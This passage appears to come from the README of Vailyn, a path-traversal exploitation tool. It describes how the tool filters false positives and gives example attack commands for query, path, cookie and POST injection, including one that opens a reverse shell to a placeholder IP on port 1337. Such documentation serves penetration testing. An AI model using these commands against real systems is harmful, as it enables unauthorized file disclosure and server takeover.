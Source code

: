 To distinguish real results from false positives, Vailyn does the following checks:
* check the status code of the response
* check if the response is identical to one taken before attack start: this is useful e.g, when the server returns 200, but ignores the payload input or returns a default page if the file is not found.
* similar to #2, perform an additional check for query GET parameter handling (useful when server returns error that a needed parameter is missing)
* check for empty responses
* check if common error signatures are in the response content
* check if the payload is contained in the response: this is an additional check for the case the server responds 200 for non-existing files, and reflects the payload in a message (like ../../secret not found)
* check if the entire response is contained in the init check response: useful when the server has a default include which disappears in case of 404

### Examples

* Simple Query attack:
`$ Vailyn -v "http://site.com/download.php" -a 1 -l dicts/files dicts/dirs -p file` --> `http://site.com/download.php?file=../INJECT`

* Query attack, but I know a file `index.php` exists on same level:
`$ Vailyn -v "http://site.com/download.php" -a 1 -l dicts/files dicts/dirs -p file -i index.php -d 1 X X`
This will shorten the duration of Phase 1 very much, since its a targeted attack.

* Simple Path attack:
`$ Vailyn -v "http://site.com/" -a 2 -l dicts/files dicts/dirs` --> `http://site.com/../INJECT`

* Path attack, but I need query parameters and tag:
`$ Vailyn -v "http://site.com/" -a 2 -l dicts/files dicts/dirs -q "?token=X#title"` --> `http://site.com/../INJECT?token=X#title`

* Simple Cookie attack:
`$ Vailyn -v "http://site.com/cookiemonster.php" -a 3 -l dicts/files dicts/dirs`
Will fetch cookies and you can select cookie you want to poison

* POST Attack:
`$ Vailyn -v "http://site.com/download.php" -a 4 -l dicts/files dicts/dirs -s "DATA1=xx&DATA2=INJECT"`
will infect DATA2 with the payload

* Attack, but target is behind login screen:
`$ Vailyn -v "http://site.com/download.php" -a 1 -l dicts/files dicts/dirs -c cookie.txt`

* Attack, but I want a reverse shell on port 1337:
`$ Vailyn -v "http://site.com/download.php" -a 1 -l dicts/files dicts/dirs -j MY.IP.IS.XX 1337`
(will start a ncat listener for you if on Unix)

* Full automation in crawler mode:
`$ Vailyn -v "http://root-url.site" -a 5` _you can also specify depths, lookup file here_ 

* Full automation, but Arjun needs `--stable`:
`$ Vailyn -v "http://root-url.site" -a 5 -k ANY`

### Demo
